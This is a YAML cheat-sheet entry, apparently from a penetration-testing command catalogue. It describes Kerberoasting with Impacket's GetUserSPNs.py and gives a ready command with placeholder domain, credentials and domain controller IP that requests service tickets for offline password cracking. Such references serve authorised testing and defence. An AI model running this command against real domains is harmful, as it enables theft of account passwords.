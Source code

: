 ```yaml
---
title: |
  Fetch Service Principal Names (SPNs) that are associated with user accounts
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

command: |
  python3 GetUserSPNs.py test.local/test:Welkom01! -dc-ip 10.10.10.1 -request
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

